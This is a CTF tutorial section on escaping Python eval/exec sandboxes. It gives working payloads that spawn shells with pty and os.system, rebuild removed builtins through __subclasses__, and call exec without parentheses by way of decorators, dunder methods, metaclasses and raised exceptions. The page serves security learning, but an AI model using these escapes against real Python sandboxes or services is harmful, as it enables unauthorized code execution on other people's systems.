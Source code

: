 Pyjail! What is pyjail? A pyjail challenge is a challenge where the user is given the opportunity to run their input in a python `eval` or `exec` call. 
That seems great right? Free RCE!
Well, there's a catch. There's always a catch. 
What exactly that catch is varies from challenge to challenge, but typically there are 
function whitelists or blacklists, character whitelists or blacklists, removal of the builtins, a combination of these or an a different trick.
In this section we document some ways around common pyjail problems.

## General tips and tricks
In general, the goal is to get a flag. Typically this takes the form of requiring RCE and reading a flag.txt filein the same directory as the challenge. 
Some useful ways to get some RCE:
* Spawn a shell 
  * `__import__("pty").spawn("/bin/bash")`
* Run commands
  * `__import__("os").system("ls")`

Other times you can run from a limited characterset, see if you can run `help()` or `breakpoint()`, 
these will give you a new shell with which to run things unbound by the original character limit.

## No access to builtins
The most common problem faced in a pyjail challenge is the removal of builtins. 
This means you can't use normal functions like `print` or `open`.
To get access back to your builtins, you can go digging through the classes you have available. 
In python you can get to the classes available with `''.__class__.__base__.__subclasses__()`.
This works because the string object in python, defined with `''`, has a class, which is walked up a level with `__base__` to get the object class, and finally you can get the classes that inherit from that object class with `.__subclasses__`.
Note that this works with pretty much any starting class, including an empty dictionary, empty tuple, or int.

From there, you can revore builtins like so:

```
__builtins__= [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
```

## Not allowed to call functions
When you aren't allowed to explicitly run functions, there are still some solutions.
For example, class decorators can be used to run functions without actually running them. For example:
```@eval
@'__import__("os").system("sh")'.format
class X:pass
```
Is equivalent to:
```
X = '__import__("os").system("sh")'.format(X)  # just gives you the string
X = eval(X)  # runs the string
```
Or if you don't have parentheses:
```
@exec
@input
class X:
    pass
 ```
 Is equivalent to:
 ```
class X:
    pass
X = input(X)
X = exec(X)
```
Another trick to not using parentheses is to use python's built in helper classes. 
For example `__add__` is called when you add something to a class and `__sub__` is called when you subtract from it.
There are many many of these to choose from based on what you are allowed to do.
So this code will run ls:
```
class X:
  __add__ = open
  __sub__ = print
 
x = X()
f = x + 'flag.txt'
for line in f:
  x - line
```
Of course, the astute among you will notice that by calling the constructor `X()` we have called a function and will be blocked.
You would be correct.
So how do we construct a class without calling a constructor? 
One option is to use meta classes to access these attributes without calling a constructor. This looks like:
```
class Metaclass(type):
    __getitem__ = exec # So Sub[string] will execute exec(string)
    
class Sub(metaclass=Metaclass): 
    pass 

Sub['import os; os.system("sh")']
```
Another option is to make your custom class an exception, raise it, and catch it. 
This gives you an instance of your class without actually calling the constructor.
```
class X(Exception):
  __add__ = exec
  
try:
  raise X
except X as x:
  x + 'import os; os.system("sh")'
```



